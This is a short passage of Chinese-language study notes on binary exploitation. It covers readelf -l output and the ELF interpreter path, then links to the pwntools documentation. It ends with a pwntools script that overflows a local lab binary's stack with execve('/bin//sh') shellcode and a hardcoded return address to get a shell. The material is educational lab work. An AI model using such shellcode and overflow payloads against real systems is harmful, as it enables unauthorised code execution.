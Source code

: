- -l：查看段表,同时可以看到段与节的对应关系(实际为查看elf程序头信息),此时也可以查看到elf解释器，在32位系统上是“/lib/ld-linux.so.2”，在x86_64系统中是“/lib64/ld-linux-x86-64.so.2”，：![](pic/2021-03-23-11-55-47.png)
# pwntools关键流程
- pwntools官方文档4.5.1 https://docs.pwntools.com/en/stable/
- pwntools翻译版文档3.50 https://pwntoolsdocinzh-cn.readthedocs.io/en/master/intro.html
```python
#4.3.3节，无任何安全机制，直接返回到栈中shellcode
from pwn import *
io=process('./a.out')
ret=0xffffd010
shellcode="\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f"+\
          "\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
payload=shellcode+"A"*(140-len(shellcode))+p32(ret)
io.send(payload)
io.interactive()
```